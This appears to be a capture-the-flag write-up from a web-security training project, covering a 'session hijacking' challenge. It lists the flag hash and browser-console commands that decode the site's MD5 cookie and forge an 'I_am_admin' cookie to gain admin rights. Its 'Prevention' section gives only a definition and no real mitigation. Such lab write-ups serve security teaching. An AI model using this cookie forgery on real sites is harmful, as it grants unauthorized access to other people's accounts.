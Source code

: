 # SESSION HIJACKING

## Flag
```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Discovery
On the page http://{IP_ADDRESS}/

```diff
# inspector console
document.cookie
> 68934a3e9455fa72420237eb05902327
```

```diff
md5_decrypt('68934a3e9455fa72420237eb05902327')
> false
md5_encrypt('true')
> b326b5062b2f0e69046810717534cb09
```

```diff
# inspector console
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## Use
> perform any actions that the original user is authorized to do during the active session

## Prevention
> Session cookies are a way of overcoming these constraints and allowing web applications to identify individual computer systems and store the current session state

## Documentation
- [owasp - Session hijacking attack](https://www.owasp.org/index.php/Session_hijacking_attack)
- [netsparker - Session hijacking](https://www.netsparker.com/blog/web-security/session-hijacking/)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)
